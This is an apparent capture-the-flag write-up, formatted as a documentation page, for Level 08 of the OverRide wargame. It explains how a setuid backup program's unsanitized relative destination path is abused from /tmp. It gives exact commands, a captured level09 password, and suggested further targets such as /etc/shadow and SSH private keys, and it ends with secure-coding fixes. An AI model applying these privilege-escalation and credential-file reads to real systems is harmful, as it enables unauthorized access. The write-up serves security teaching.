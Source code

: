 ```yaml
---
sidebar_position: 10
---
```


import AsciinemaPlayer from '@site/src/components/AsciinemaPlayer';
import MissionObjective from '@site/src/components/MissionObjective';
import VulnerabilityCard from '@site/src/components/VulnerabilityCard';
import CodeBlock from '@site/src/components/CodeBlock';
import StepsList from '@site/src/components/StepsList';

# 🗂️ Level 08

<MissionObjective 
  level="Level 08"
  target="level09 privileges"
  method="Path manipulation and setuid privilege abuse"
/>

## Vulnerability Analysis

<VulnerabilityCard 
  type="Path Traversal & Setuid Privilege Abuse"
  severity="high"
  description="Binary creates backup copies of files with setuid privileges but lacks path sanitization. By manipulating working directory and folder structure, we can force it to copy restricted files to accessible locations."
  techniques={[
    "Path Manipulation",
    "Setuid Abuse", 
    "Directory Traversal",
    "Relative Path Exploitation"
  ]}
/>

## Program Behavior Analysis

<CodeBlock 
  title="Binary Usage"
  command="./level08 filename"
  output={`Usage: ./level08 <filename>
Program expects a filename as argument
Creates backup in ./backups/ directory`}
/>

**Core Functionality:**
- Reads source file with setuid privileges (level09)
- Creates backup copy in `./backups/` + filename
- No path validation or sanitization
- Relative destination path vulnerable to manipulation

## Source Code Analysis

<CodeBlock 
  title="Pseudocode Logic"
  command="# Simplified program flow"
  output={`FILE *log = fopen("./backups/.log", "w");
fprintf(log, "Starting back up: %s\\n", argv[1]);

FILE *source = fopen(argv[1], "r");  // Read with setuid privileges

char dest[100];
strcpy(dest, "./backups/");
strncat(dest, argv[1], 99 - strlen(dest));  // No path sanitization!

int fd = open(dest, O_WRONLY | O_CREAT | O_TRUNC, 0640);

// Copy file byte by byte
while ((c = fgetc(source)) != EOF) {
    write(fd, &c, 1);
}

fprintf(log, "Finished back up: %s\\n", argv[1]);`}
/>

## Vulnerability Deep Dive

<CodeBlock 
  title="Path Construction Vulnerability"
  command="# Example path construction"
  output={`Input: /home/users/level09/.pass

Source path: /home/users/level09/.pass (absolute)
→ Read with setuid privileges ✓

Destination: ./backups/ + /home/users/level09/.pass
→ ./backups//home/users/level09/.pass (relative to CWD)
→ Controllable by attacker! ✓`}
/>

**Critical Issues:**
1. **No path sanitization**: Argument used directly in file operations
2. **Relative destination**: `./backups/` depends on current working directory
3. **Setuid read privilege**: Can access restricted files
4. **Directory creation**: No validation of destination path components

## Exploitation Strategy

<CodeBlock 
  title="Attack Methodology"
  command="# Exploitation approach"
  output={`1. Choose writable directory (/tmp)
2. Create matching folder structure
3. Manipulate working directory
4. Force program to copy restricted file
5. Read copied content from accessible location`}
/>

## Step-by-Step Exploitation

<StepsList
  title="Path Manipulation Attack"
  steps={[
    {
      title: "Setup Working Directory",
      description: "Move to writable location where we can create folder structure",
      command: "cd /tmp",
      result: "Now in world-writable directory"
    },
    {
      title: "Create Destination Structure", 
      description: "Pre-create the folder path where backup will be written",
      command: "mkdir -p ./backups/home/users/level09/",
      result: "Destination directory structure ready"
    },
    {
      title: "Execute Privilege Abuse",
      description: "Run setuid binary to copy restricted file",
      command: "~/level08 /home/users/level09/.pass",
      result: "File copied with elevated privileges"
    },
    {
      title: "Read Extracted Data",
      description: "Access the copied restricted file content",
      command: "cat ./backups/home/users/level09/.pass",
      result: "level09 password revealed"
    }
  ]}
/>

## Complete Exploit Demonstration

<CodeBlock 
  title="Full Exploitation Sequence"
  command="# Complete attack chain"
  output={`level08@OverRide:~$ cd /tmp
level08@OverRide:/tmp$ mkdir -p ./backups/home/users/level09/
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat ./backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
level08@OverRide:/tmp$ su level09
Password: fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
level09@OverRide:~$ whoami
level09`}
/>

## Technical Analysis

### Path Resolution Mechanics

<CodeBlock 
  title="Understanding Relative vs Absolute Paths"
  command="# How the OS resolves the paths"
  output={`Source: /home/users/level09/.pass
→ Absolute path, resolved from root
→ Setuid binary can read this file

Destination: ./backups//home/users/level09/.pass  
→ Relative to current working directory
→ If CWD is /tmp, actual path becomes:
→ /tmp/backups/home/users/level09/.pass`}
/>

### Setuid Privilege Model

:::tip **How Setuid Exploitation Works**
- **Effective UID**: Process runs with level09 privileges
- **File Access**: Can read files owned by level09
- **Write Operations**: Destination still respects file system permissions
- **Working Directory**: Inherited from calling process (user-controlled)
:::

## Directory Structure Analysis

<CodeBlock 
  title="Required Folder Hierarchy"
  command="tree /tmp/backups/"
  output={`/tmp/backups/
└── home
    └── users
        └── level09
            └── .pass  # This is where our copied file appears

4 directories, 1 file`}
/>

## Alternative Attack Vectors

<CodeBlock 
  title="Other Potential Targets"
  command="# What other files could we copy?"
  output={`~/level08 /etc/passwd
→ Copy system password file

~/level08 /home/users/level09/.ssh/id_rsa  
→ Copy SSH private keys

~/level08 /etc/shadow
→ Copy password hashes (if readable)`}
/>

## Protection Bypass Analysis

### Why Common Defenses Fail

:::warning **Security Mechanism Bypasses**
- **Path Sanitization**: Completely absent in this implementation
- **Chroot/Jail**: Not implemented, absolute paths work normally  
- **Permission Checks**: Only applied to destination, not source
- **Symlink Protection**: No symlink validation performed
:::

## Debugging the Vulnerability

<CodeBlock 
  title="Understanding the Flow with strace"
  command="strace -f ~/level08 /home/users/level09/.pass"
  output={`openat(AT_FDCWD, "/home/users/level09/.pass", O_RDONLY) = 3
openat(AT_FDCWD, "./backups//home/users/level09/.pass", 
       O_WRONLY|O_CREAT|O_TRUNC, 0640) = 4
       
→ Source opened with absolute path
→ Destination opened relative to CWD`}
/>

## Key Learning Points

:::tip **File System Security Concepts**
- **Setuid Binary Analysis**: Understanding privilege inheritance
- **Path Manipulation**: Exploiting relative path construction
- **Working Directory Control**: How CWD affects file operations
- **Privilege Escalation**: Reading restricted files via setuid abuse
:::

## Code Review Lessons

<CodeBlock 
  title="Secure Implementation Requirements"
  command="# What should have been done"
  output={`1. Path sanitization: Reject ../ and absolute paths
2. Destination validation: Ensure writes stay in safe directory
3. Drop privileges: Don't maintain setuid for file copying
4. Canonical paths: Resolve all paths to absolute before use
5. Access controls: Verify user can read source legitimately`}
/>

## Technical Summary

This level demonstrates:
1. **Setuid Binary Analysis** - Understanding privilege inheritance and abuse
2. **Path Manipulation Attacks** - Exploiting relative path construction
3. **File System Security** - Working directory and permission interactions
4. **Privilege Escalation** - Reading restricted files through design flaws
5. **Code Review Skills** - Identifying missing input validation

The vulnerability showcases how seemingly innocent file operations can become security risks when combined with elevated privileges and insufficient input validation. This is a classic example of **confused deputy** problem